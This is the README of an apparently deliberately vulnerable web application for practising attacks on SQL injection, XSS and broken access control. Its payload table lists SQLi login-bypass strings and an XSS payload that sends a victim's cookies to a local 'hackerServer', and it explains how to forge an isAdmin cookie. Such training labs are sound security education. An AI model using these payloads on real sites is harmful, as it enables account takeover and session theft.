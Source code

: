 ## (VWA) Vulnerable Web Application 🚀

That application demonstrates top 5 (**SQli, XSS, Broken Access Control, CSRF, SSRF**) critical web vulnerabilities. You can run and test them out!

_The whole project consist of mini projects with each vulnerability_

P.S: I tried not to use any databases for simpler and faster installation but for some vulnerabilities it was required such as: **SQli**

---

## Quick Installation

(Go to folder with mini project and do **npm i**)

```plaintext
cd VWA/sqli/1
npm i

cd VWA/xss/1
npm i

cd VWA/xss/hackerServer
npm i
```

If you want to test SQli you need to create **postgresql** database with that credentials

![](https://33333.cdn.cke-cs.com/kSW7V9NHUXugvhoQeFaf/images/bacbbf3d5f416e47b3d1f8b3c3ac4e537c5457ba8868a574.png)

---

## Payloads

| Vulnerability | Payload | Where to Type | What it do |
| --- | --- | --- | --- |
| SQli | ' OR '1' = '1 | Password field | Allow to get all users |
| SQli | admin' -- | Password field | Allow to login only by username |
| XSS | \<svg onload=alert(1)> | PostInfo field | Simple alert |
| XSS | \<svg onload='var i = new Image(); i.src="http://localhost:3001/acceptCookie?cookie="+btoa(document.cookie);'> | PostInfo field | Allow to send user cookie to **hackerServer** website |
| Broken Access Control | Any logged in user can edit **isAdmin** cookie parameter | DevTools Application Cookie | Get access to admin page |

---

## To-Do

*   [x] SQli vuln.
*   [x] XSS vuln.
*   [x] Broken Access Control vuln.
*   [ ] CSRF vuln.
*   [ ] SSRF vuln.

